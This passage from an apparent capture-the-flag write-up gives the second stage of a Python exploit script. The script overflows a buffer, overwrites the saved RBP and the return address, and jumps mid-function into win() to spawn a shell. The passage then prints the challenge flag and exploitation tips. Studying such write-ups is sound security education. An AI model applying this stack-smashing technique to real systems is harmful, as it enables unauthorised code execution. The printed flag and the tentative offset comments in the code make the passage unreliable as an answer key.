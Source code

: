 ```python
# Addresses needed for the second payload
ret_gadget = 0x40101A       # A simple 'ret' gadget for stack alignment
system_mid_addr = 0x401218  # Address in the middle of win(), after the checks
bin_sh_addr = next(elf.search(b"/bin/sh")) # Address of the "/bin/sh" string

# Calculate the new RBP value.
# The goal is to make `[new_RBP - 0x10]` point to where we place `bin_sh_addr`.
# The position of bin_sh_addr on the stack is: `leaked_buf_addr + 72 + 8*2`
# => new_RBP - 0x10 = leaked_buf_addr + 0x58 (72+16=88) -> Let's check the original script's math.
# Original: new_rbp = buf_addr + 0x70. Let's use this logic.
# [buf+0x70 - 0x10] = buf+0x60. Where is bin_sh_addr on stack?
# After RBP, we have ret, system_mid, bin_sh. So bin_sh is at [leaked_buf_addr + 72 + 16] = buf+0x58
# The original script seems to have a slight calculation difference, but the concept is sound.
# Let's stick to the known working calculation:
new_rbp = leaked_buf_addr + 0x58 + 0x10

# Payload 2: Overwrite RBP and the return address
payload2 = b"A" * 72                 # Padding to reach saved RBP
payload2 += p64(new_rbp)              # Overwrite RBP with our calculated value
payload2 += p64(ret_gadget)           # Align the stack
payload2 += p64(system_mid_addr)      # Jump into the middle of win()
payload2 += p64(bin_sh_addr)          # The data that will be loaded into RDI

p.sendline(payload2)

# Switch to interactive mode to get the shell
p.interactive()

```

**Result (Flag)**

Executing the script will connect to the server, perform the two-stage exploit, and ultimately grant a shell. From there, we can read the flag.

`sun{D!d_y0u_s3e_thE_IM4P_spAce_laUncH??}`

---

## Postmortem / Tips

- This challenge is an excellent example of how "red herrings" like `IBT/CET` can be introduced to distract players from simpler, more direct exploit paths.
- Always thoroughly analyze all information provided by the program. In this case, the stack address leak was the most critical piece of the puzzle.
- Don't just think about calling functions from the beginning. Jumping into the middle of a function is a powerful technique to bypass security checks and unwanted logic.
- The technique of overwriting `RBP` to control indirect pointers is an essential skill in modern pwnable challenges.
